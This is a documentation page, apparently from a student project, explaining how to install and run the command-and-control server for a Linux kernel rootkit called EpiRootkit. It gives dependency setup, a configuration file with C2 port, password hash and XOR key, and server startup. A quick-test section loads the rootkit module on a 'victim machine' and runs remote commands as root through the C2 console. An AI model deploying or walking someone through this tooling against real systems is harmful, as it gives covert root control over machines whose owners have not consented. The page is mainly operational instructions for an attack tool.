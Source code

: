 ```yaml
---
title: "Installation"
description: "Step-by-step installation and setup guide"
icon: "download"
date: "2025-05-25T00:00:00+01:00"
lastmod: "2025-05-25T16:00:00+01:00"
draft: false
toc: true
weight: 302
---
```


# Installation Guide

Setup instructions for the EpiRootkit C2 server.

## Prerequisites

### Required Software
- **Node.js**: Version 18+ 
- **pnpm**: Package manager (recommended)

### Verify Installation
```bash
node --version
# v18.17.0

pnpm --version
# 8.6.2

# Install pnpm if missing
npm install -g pnpm
```

## Installation

### 1. Install Dependencies
```bash
cd attacking_program
pnpm install
# ✓ Dependencies installed successfully
```

### 2. Review Configuration
```bash
cat config.env
```

**Default Settings:**
```bash
# Server ports
C2_PORT=4444                    # C2 server port
WEB_PORT=3000                   # Web interface port

# Authentication (SHA-512 of "password")
PASSWORD_HASH=b109f3bbbc244eb82441917ed06d618b9008dd09b3befd1b5e07394c706a8bb980b1d7785e5976ec049b46df5f1326af5a2ea6d103fd07c95385ffab0cacbc86

# XOR Encryption
ENCRYPTION_KEY=0123456789abcdef0123456789abcdef0123456789abcdef0123456789abcdef  # 32-byte hex key
ENABLE_ENCRYPTION=true          # XOR encryption enabled by default
```

### 3. Start Server
```bash
pnpm start
# ✓ Server started on port 4444
# ✓ Web interface started on port 3000
# c2-server$ 
```

## Verification

### CLI Interface
```bash
# Test CLI commands
help
# EpiRootkit C2 Commands
# clients                    - List connected clients
# auth <client> <password>   - Authenticate with client
# ...

ls
# No clients connected (initially)
```

### Web Interface
Access at: `http://localhost:3000`
- Login with password: `password`
- Dashboard shows connected clients
- All CLI features available via web

## Configuration Options

### Change Ports
```bash
# Edit config.env
C2_PORT=8080        # Custom C2 port
WEB_PORT=8000       # Custom web port
```

### Change Password
```bash
# Generate new SHA-512 hash
echo -n "newpassword" | sha512sum
# Copy the hash to config.env as PASSWORD_HASH
```

### Disable Encryption
```bash
# Edit config.env
ENABLE_ENCRYPTION=false
```

## Quick Test

### 1. Connect Rootkit (victim machine)
```bash
sudo insmod epirootkit.ko
# C2 shows: ✓ Client-1 Connected
```

### 2. Authenticate
```bash
auth Client-1 password
# ✓ Authenticated
# SUCCESS: Authentication successful
```

### 3. Test Commands
```bash
exec Client-1 whoami
# Exit code: 0
# Output: root

status Client-1
# EpiRootkit Status: Version 1.0.0, Authentication: YES
```

